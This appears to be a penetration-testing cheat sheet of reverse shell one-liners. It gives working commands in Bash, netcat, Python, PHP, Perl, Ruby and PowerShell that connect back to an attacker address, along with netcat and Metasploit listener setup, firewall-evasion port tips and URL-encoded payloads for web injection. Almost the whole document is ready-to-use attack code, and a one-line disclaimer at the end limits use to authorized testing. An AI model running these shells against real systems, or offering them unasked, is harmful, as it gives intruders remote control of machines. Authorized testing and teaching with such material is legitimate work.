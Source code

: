 # Reverse Shell Cheat Sheet

## Online Reverse Shell Generator

[https://revshells.com](https://revshells.com)

## Bash Reverse Shells

```bash
# Creates an interactive bash shell that redirects input/output to a TCP connection
# This establishes a reverse shell to the attacker's machine
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# Alternative syntax using -c to execute the command
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'

# Same as above but using double quotes (useful for variable substitution)
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

## Netcat Reverse Shells

### Traditional Netcat

```bash
# Uses the -e flag to specify the executable to run after connection
# This creates a reverse shell to the attacker's machine
nc -e /bin/sh 10.0.0.1 8080

# Same as above but using /bin/bash instead of /bin/sh
nc -e /bin/bash 10.0.0.1 8080

# Alternative syntax using -c to specify the command
nc -c bash 10.0.0.1 8080
```

### Netcat without -e flag

```bash
# Creates a named pipe and uses it to redirect input/output to the netcat connection
# This method works when the -e flag isn't available
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/f

# Alternative method using two netcat instances on different ports
# The first nc listens for the reverse shell, the second sends input back
nc 10.0.0.1 8080 | /bin/bash | nc 10.0.0.1 8081  # Listener both ports 8080 and 8081
```

## Python Reverse Shells

### Python 2

```python
# Creates a socket connection to the attacker's machine
# Duplicates the socket file descriptors for input, output, and error
# Then executes an interactive shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python 3

```python
# Same as Python 2 version but compatible with Python 3 syntax
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP Reverse Shells

### Basic PHP Shell

```php
# Creates a socket connection to the attacker's machine
# Executes a shell with input/output redirected to the socket
php -r '$sock=fsockopen("10.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### PHP One-liner

```php
# Embeds a bash reverse shell command within PHP code
# Useful for web application exploitation
<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'"); ?>
```

## Perl Reverse Shell

```perl
# Creates a socket connection to the attacker's machine
# Redirects standard input, output, and error to the socket
# Then executes an interactive shell
perl -e 'use Socket;$i="10.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell

```ruby
# Opens a TCP socket to the attacker's machine
# Redirects input/output to the socket and executes a shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## PowerShell Reverse Shell

```powershell
# Creates a TCP client connection to the attacker's machine
# Reads commands from the socket, executes them, and sends output back
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Listener Commands

### Netcat Listener

```bash
# Listens on port 8080 for incoming reverse shell connections
nc -lvp 8080

# More verbose version showing additional connection details
nc -lvnp 8080  # More verbose
```

### Listener Tools

`penelope` ---> github 
`pwncat-cs` ---> pipx install pwncat-cs

### Metasploit Listener

```bash
# Configures Metasploit to handle reverse shells
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp  # Example payload
set LHOST 10.0.0.1
set LPORT 8080
run
```

## Notes

1. Replace `10.0.0.1` with your attacking machine's IP address or `tun0`
2. Replace `8080` with your desired port number Try using a commun port like 80, 447, ... if trouble with firewall)
3. Some shells may need URL encoding if used in web applications --> cyberchef online tool for enc/decode

## URL Encoded Versions

Common shells URL encoded for web injection:

```bash
# URL encoded version of the basic bash reverse shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

%62%61%73%68%20%2D%69%20%3E%26%20%2F%64%65%76%2F%74%63%70%2F%31%30%2E%30%2E%30%2E%31%2F%38%30%38%30%20%30%3E%26%31

# URL encoded version of the netcat reverse shell without -e flag
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8080 >/tmp/f

%72%6D%20%2F%74%6D%70%2F%66%3B%6D%6B%66%69%66%6F%20%2F%74%6D%70%2F%66%3B%63%61%74%20%2F%74%6D%70%2F%66%7C%2F%62%69%6E%2F%73%68%20%2D%69%20%32%3E%26%31%7C%6E%63%20%31%30%2E%30%2E%30%2E%31%20%38%30%38%30%20%3E%2F%74%6D%70%2F%66
```

## Security Note

⚠️ These commands are for educational purposes and authorized penetration testing only. Unauthorized use may be illegal.
